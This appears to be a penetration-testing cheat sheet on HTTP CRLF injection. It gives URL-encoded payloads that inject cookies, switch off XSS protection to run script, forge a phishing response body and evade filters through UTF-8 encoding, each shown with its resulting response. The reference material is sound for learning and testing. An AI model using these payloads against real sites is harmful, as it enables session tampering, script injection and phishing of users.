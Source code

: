 # Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.


## Summary

* [Methodology](#methodology)
    * [Add a cookie](#add-a-cookie)
    * [Add a cookie - XSS Bypass](#add-a-cookie---xss-bypass)
    * [Write HTML](#write-html)
* [Filter Bypass](#filter-bypass)
* [Labs](#labs)
* [References](#references)


## Methodology

### Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```


### Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```


### Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```


## Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* `%E5%98%8A` = `%0A` = \u560a
* `%E5%98%8D` = `%0D` = \u560d
* `%E5%98%BE` = `%3E` = \u563e (>)
* `%E5%98%BC` = `%3C` = \u563c (<)


## Labs

* [PortSwigger - HTTP/2 request splitting via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)


## References

- [CRLF Injection - CWE-93 - OWASP - May 20, 2022](https://www.owasp.org/index.php/CRLF_Injection)
- [Starbucks: [newscdn.starbucks.com] CRLF Injection, XSS - Bobrov - 2016-12-20](https://vulners.com/hackerone/H1:192749)
